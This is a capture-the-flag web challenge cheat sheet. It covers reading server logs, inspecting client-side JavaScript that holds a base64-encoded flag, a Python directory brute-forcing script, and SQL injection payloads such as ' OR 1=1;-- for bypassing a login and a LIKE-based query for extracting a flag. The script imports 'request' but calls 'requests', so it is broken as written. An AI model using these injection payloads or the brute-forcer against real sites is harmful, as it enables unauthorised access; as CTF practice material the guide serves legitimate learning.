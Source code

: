 # Web Challenge
--------------------------

Method-1
------------
```
Note: If there is log file that contains recent traffic of a web server and you want to find the Source IP ?
Solution : Open the file and search for a HTTP "200" OK success status response code.
```

Method-2
--------------
``Note: Always check the source code of a website and see the javascriptfile``
```js
function checkCreds(usr, pass){

    if(usr.includes("admin")){
        if(btoa(pass) === "amN0ZnsxTV9zMF8xTV81b19EeW40TWl0M18wOTI0Nzh9"){
            alert("My Secrets: 1. I count in my sleep, 2. I hav")
        }
        else{
            alert("nice try Derrick")   
        }
    }
    else{
         alert("You fool!")   
    }

}

function login(){
    usr = document.getElementById('form3Example3').value
    pass = document.getElementById('form3Example4').value
    checkCreds(usr,pass)
}
```
Method-3
---------------
``Note: If there is Directory enumeration challenge where every request returns a random HTTP status code``.
``Solution: We have to send requests to all the pages in a wordlists and see if any of them respond with something that might be the flag``
```python
from multiprocessing.pool import Pool    # multiprocessing is a package that supports spawning processes using an API similar to the threading module
from sys import argv                  #System specific parameters and functions
import request                           # Make a request to a web page.

if len(argv) !=4:              # IF the length of the argument is not equall to 4(Suppose: length of the argument is 3)
    print(f'Usage:{argv[0]} <URL> <brute force file> <num threads>')  # Actual way of passing the arguments
    exit(1)                                                           # exiting the program
    
url = argv[1]           # Taking url as argument 1 from argv[] function
fname = argv[2]         # Taking the wordlist as argument 2
numthreads = int(argv[3])  # Taking the numberof threads as argument 3

def check_page(name):     #Function to check the page
    name=name.strip()      #It basically removes spaces
    r = requests.get(f'{url}/{name}')  # requests.get function is used to request the webpage with url/name(wordlist)
    if 'flagformat' in r.text:   #Here flagformat is what you are finding in r.text(response of a webpage)
        print(r.text)             #printing the response page
with open(fname,'r') as f:         #overhere we open the wordlist file giving the permission as read
    with Pool(processes=numthreads) as pool:
         pool.map(check_page,f,256)
        
```
Method-4
--------------
``IF there is a Login Page then check for sql injection with common payload``
```
username: admin
password: 'OR 1=1;--
```
``IF  we want to search the flag with flag ID or value then we can use this one``
```
' OR flag LIKE '<flagformat>{%
For Example: Suppose there is flagformat is abc{}
Then: ' OR flag LIKE 'abc{%
```

